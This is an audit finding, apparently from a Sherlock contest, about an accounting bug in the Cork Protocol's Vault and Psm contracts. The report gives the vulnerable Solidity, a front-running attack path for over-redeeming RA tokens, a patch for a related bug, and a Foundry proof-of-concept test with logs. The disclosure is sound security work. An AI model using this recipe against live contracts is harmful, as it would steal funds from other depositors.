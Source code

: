 Colossal Magenta Elk

High

# Malicious user can break the internal accounting of the protocol and steal funds from other users.

### Summary

As per the README: *The contracts will be primarily deployed on Ethereum.* Frontrunning is possible on Ethereum. After the CT and DS tokens have expired, users can redeem the RA and PA tokens in the system, by calling the [Psm::redeemWithCT()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/core/Psm.sol#L198-L210) and [Vault::redeemExpiredLv()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/core/Vault.sol#L128-L138) functions. However if the [Vault::redeemExpiredLv()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/core/Vault.sol#L128-L138) function is called first the internal RA accounting will be broken, and the system will think it has more RA tokens than it actually has. The  [Vault::redeemExpiredLv()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/core/Vault.sol#L128-L138) function in a series of internal calls, calls the [VaultLib::_liquidatedLp()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/libraries/VaultLib.sol#L349-L393) function which liquidates the LP tokens the protocol owns, but doesn't decrease the RA accounting of the protocol. 
```solidity
    function _liquidatedLp(
        State storage self,
        uint256 dsId,
        IUniswapV2Router02 ammRouter,
        IDsFlashSwapCore flashSwapRouter
    ) internal {
        DepegSwap storage ds = self.ds[dsId];

        // if there's no LP, then there's nothing to liquidate
        if (self.vault.config.lpBalance == 0) {
            return;
        }

        self.vault.lpLiquidated.set(dsId);

        (uint256 raAmm, uint256 ctAmm) = __liquidateUnchecked(
            self, self.info.pair1, self.ds[dsId].ct, ammRouter, IUniswapV2Pair(ds.ammPair), self.vault.config.lpBalance
        );

        uint256 reservedDs = flashSwapRouter.emptyReserve(self.info.toId(), dsId);

        uint256 redeemAmount = reservedDs >= ctAmm ? ctAmm : reservedDs;
        PsmLibrary.lvRedeemRaWithCtDs(self, redeemAmount, dsId);
        uint256 ctAttributedToPa = reservedDs >= ctAmm ? 0 : ctAmm - reservedDs;

        uint256 psmPa;
        uint256 psmRa;

        if (ctAttributedToPa != 0) {
            (psmPa, psmRa) = PsmLibrary.lvRedeemRaPaWithCt(self, ctAttributedToPa, dsId);
        }

        psmRa += redeemAmount;

        self.vault.pool.reserve(self.vault.lv.totalIssued(), raAmm + psmRa, psmPa);
    }
```
A malicious user can call the [Vault::redeemExpiredLv()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/core/Vault.sol#L128-L138) function, and for example liquidate 1 WEI of LV tokens, he can front run the function if necessary. The he  can call the [Psm::redeemWithCT()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/core/Psm.sol#L198-L210) function and redeem more RA tokens than he is supposed to, stealing fund from other users who still haven't redeemed their expired CT tokens. 

### Root Cause

The [Vault::redeemExpiredLv()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/core/Vault.sol#L128-L138)  function can be called before the  [Psm::redeemWithCT()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/core/Psm.sol#L198-L210) function, and mess up the internal accounting of the protocol for the RA token.

### Internal pre-conditions

1. Users mint LV tokens via the [Vault::depositLv()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/core/Vault.sol#L33-L37) function.
2. Users request to redeem their LV tokens via the [Vault::requestRedemption()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/core/Vault.sol#L83-L87) function.
3. Users deposit RA tokens via the [Psm::depositPsm()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/core/Psm.sol#L90-L101) function.
4. The CT and DS tokens expire.

### External pre-conditions

_No response_

### Attack Path

1. The malicious actor mints CT and DS tokens via the [Psm::depositPsm()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/core/Psm.sol#L90-L101) function, before the tokens have expired. Note that the DS tokens are not important for this issue.
2. After the CT and DS tokens have expired, either a normal user first calls the [Vault::redeemExpiredLv()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/core/Vault.sol#L128-L138) function to redeem his LV tokens, or a malicious actor can front run the call to [Psm::redeemWithCT()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/core/Psm.sol#L198-L210) function if there is such.
3. The malicious actor can immediately after call the [Psm::redeemWithCT()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/core/Psm.sol#L198-L210) function and receive more RA tokens than he is supposed to

### Impact

If the [Vault::redeemExpiredLv()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/core/Vault.sol#L128-L138)  function is called before the  [Psm::redeemWithCT()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/core/Psm.sol#L198-L210) function, either by chance or by a malicious actor, the RA internal accounting will be messed up. This will allow users to withdraw more RA assets with their CT tokens than they are supposed to, and the last users to withdraw won't be able to so. The results in either malicious user intentionally stealing rewards from other users, or just normal users withdrawing first receiving more RA rewards than they should, and the users that withdraw last will receive way less RA tokens than they are supposed to, or none at all.

### PoC


There is a separate issue with one of the functions that have to be fixed first, since I am no sure what the correct fix is that covers all cases. The probelm is in the [VaultLib::_liquidatedLp()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/libraries/VaultLib.sol#L349-L393) function. The following line will always return 0:
```solidity
uint256 reservedDs = flashSwapRouter.emptyReserve(self.info.toId(), dsId);
```
However according to the docs, and the comments, this is not the expected behavior. 
```solidity
        // 1. The AMM LP is redeemed to receive CT + RA
        // 2. Any excess DS in the LV is paired with CT to redeem RA
        // 3. The excess CT is used to claim RA + PA in the PSM
        // 4. End state: Only RA + redeemed PA remains
```
So in all the cases where the DS token reserve is bigger than the amount of CT tokens returned from liquidating the LP, this is valid attack path. The likelihood of the CT tokens that are returned from liquidating the LP tokens owned by the protocol, being less or equal to the DS token reserves of the protocol is pretty high. The fix I have implemented is the following(add it in order to run the test):
Change the [DsFlashSwap::emptyReservePartial()](https://github.com/sherlock-audit/2024-08-cork-protocol/blob/main/Depeg-swap/contracts/libraries/DsFlashSwap.sol#L70-L78) function to:

```solidity
     function emptyReservePartial(ReserveState storage self, uint256 dsId, uint256 amount, address to)
        internal
        returns (uint256 reserve)
    {
        self.ds[dsId].ds.transfer(to, amount);

        self.ds[dsId].reserve -= amount;

        /// INFO: fix for reserve returning 0 when it is depleted
        reserve = amount;

        // reserve = self.ds[dsId].reserve;
    }
``` 

[Gist](https://gist.github.com/AtanasDimulski/3f9bfc84c63e1c977b877613b644c0e2)
After following the steps in the above mentioned [gist](https://gist.github.com/AtanasDimulski/3f9bfc84c63e1c977b877613b644c0e2) add the following test to the ``AuditorTests.t.sol`` file: 

```solidity
    function test_WrongAccountingIfRedeemExpiredLvIsCalledBeforeRedeemWithCt() public {
        vm.startPrank(bob);
        WETH.mint(bob, 1e18);
        WETH.approve(address(moduleCore), type(uint256).max);
        moduleCore.depositLv(id, 1e18);
        Asset(lvAddress).approve(address(moduleCore), type(uint256).max);
        moduleCore.requestRedemption(id, 1e18);
        vm.stopPrank();

        vm.startPrank(tom);
        WETH.mint(tom, 1e18);
        WETH.approve(address(moduleCore), type(uint256).max);
        moduleCore.depositPsm(id, 1e18);
        vm.stopPrank();

        vm.startPrank(alice);
        WETH.mint(alice, 1e18);
        WETH.approve(address(moduleCore), type(uint256).max);
        moduleCore.depositPsm(id, 1e18);
        console2.log("Accounting RA balance: ", moduleCore.valueLocked(id));
        (uint112 raReserve, uint112 ctReserve) = flashSwapRouter.getAmmReserve(id, 1);
        console2.log("RA reserve in the amm pair contract: ", raReserve);
        vm.stopPrank();

        vm.startPrank(bob);
        /// @notice fix in DSFlashSwap should be on
        /// @notice skip 1100 seconds so that ct and ds tokens expire
        skip(1100);
        moduleCore.redeemExpiredLv(id, bob, 1e18);
        console2.log("Bob WETH's balance: ", WETH.balanceOf(bob));
        console2.log("Accounting RA balance: ", moduleCore.valueLocked(id));
        vm.stopPrank();

        vm.startPrank(tom);     
        (address ct, address ds) = moduleCore.swapAsset(id, 1);
        Asset(ct).approve(address(moduleCore), type(uint256).max);
        console2.log("The total supply of ct: ", Asset(ct).totalSupply());
        moduleCore.redeemWithCT(id, 1, 1e18);
        console2.log("WETH balance of tom: ", WETH.balanceOf(tom));
        vm.stopPrank();

        vm.startPrank(alice);
        console2.log("Actual WETH balance in the system: ", WETH.balanceOf(address(moduleCore))); 
        (uint112 raReserve1, ) = flashSwapRouter.getAmmReserve(id, 1);
        console2.log("RA reserve in the amm pair contract: ", raReserve1);      
        Asset(ct).approve(address(moduleCore), type(uint256).max);
        vm.expectRevert();
        moduleCore.redeemWithCT(id, 1, 1e18);
        vm.stopPrank();
    }
```

```solidity
Logs:
  Accounting RA balance:  2526315789473684210
  RA reserve in the amm pair contract:  473684210526315790
  Bob WETH's balance:  999999999999997996
  Accounting RA balance:  2526315789473684210
  The total supply of ct:  2000000000000001055
  The total supply of ct:  2000000000000001055
  WETH balance of tom:  1263157894736841438
  Actual WETH balance in the system:  736842105263159617
  RA reserve in the amm pair contract:  949
```

To run the test use: ``forge test -vvv --mt test_WrongAccountingIfRedeemExpiredLvIsCalledBeforeRedeemWithCt``

### Mitigation

_No response_